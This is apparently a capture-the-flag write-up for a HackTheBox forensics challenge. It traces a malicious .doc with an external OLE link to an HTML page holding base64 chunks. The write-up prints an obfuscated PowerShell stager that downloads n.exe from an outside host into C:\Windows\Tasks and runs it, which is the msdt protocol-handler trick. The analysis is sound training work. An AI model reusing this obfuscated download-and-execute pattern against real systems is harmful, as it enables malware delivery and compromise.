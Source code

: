 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :*
```shell
$ wget IP/layoffs.doc
```
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* 
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :*
```shell
wget IP/223_index_style_fancy.html!
```
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```python
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag**just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}

